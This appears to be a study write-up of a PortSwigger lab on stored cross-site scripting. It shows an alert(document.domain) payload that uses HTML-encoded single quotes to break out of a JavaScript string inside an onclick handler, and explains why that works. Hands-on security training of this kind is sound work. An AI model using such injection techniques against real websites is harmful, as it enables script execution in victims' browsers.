 This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

# Vuln assessment

User input is placed within an `onclick` event:

![[relfection-point.png]]

# Exploitation

Try to manipulate the syntax:

```
http://test.com&apos;-alert(document.domain)-&apos;
```

URL encode the payload above and the result is the following:

![[Client-Side Vulnerabilities/XSS/Stored XSS/labs/Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped/images/XSS.png]]

The code inside is valid, hence once clicked the link will trigger the `alert` function:

```Javascript
var tracker={track(){}};tracker.track('http://test.com'-alert(document.domain)-'');
```

Specifically the argument:

```javascript
'http://test.com'-alert(document.domain)-''
```